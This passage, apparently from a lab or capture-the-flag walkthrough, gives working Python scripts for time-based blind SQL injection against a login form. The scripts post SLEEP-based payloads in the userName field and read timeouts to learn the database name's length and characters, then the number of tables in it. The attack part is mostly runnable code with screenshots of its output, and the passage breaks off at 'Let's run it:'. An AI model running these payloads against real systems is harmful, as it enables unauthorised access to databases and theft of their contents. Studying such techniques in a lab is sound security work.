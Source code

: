 ```python
#The underscore character ("_") is represented as "\_" because it is a wildcard in the SQL LIKE operator, so the square brackets are useful to make SQL interpret it literally.

len_db_name=1
while True:
        sql_injection="' OR 1=IF((SELECT LENGTH(database()))="+str(len_db_name)+", SLEEP(5), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=3)    #Random Password
        except:
            break
        len_db_name=len_db_name+1
print ("[Found]The length of the database name is: "+str(len_db_name))

i=0
db_name=""
while i<len_db_name:
    for name_char in chars:
        sql_injection="' OR 1=IF((SELECT database()) LIKE '"+str(db_name+name_char)+"%', SLEEP(5), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=3)  #Random Password
        except:
            db_name+=name_char
            break
    i=i+1
print ("[Found]The database name is: "+db_name)
```
Let's run it:

![Len_DB_Name](https://user-images.githubusercontent.com/66698256/230970446-d86af4d3-af8d-4330-b91b-74c268fede23.png)

![DB_Name](https://user-images.githubusercontent.com/66698256/230970460-bb668c33-fc4e-4592-97d1-0a9fdc7f7c69.png)


Now we'll find out the number of tables inside the database. So, we'll add the following code to the one above:

```python
tables_count=0
while True:
    sql_injection="' OR 1=IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())="+str(tables_count)+", SLEEP(5), 1)#"
    print ("[+]Try: "+sql_injection)
    try:
        response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=3)  #Random Password
    except:
        break
    tables_count=tables_count+1
print ("[Found]The number of tables inside the database is: "+str(tables_count))
```
Let's run it:
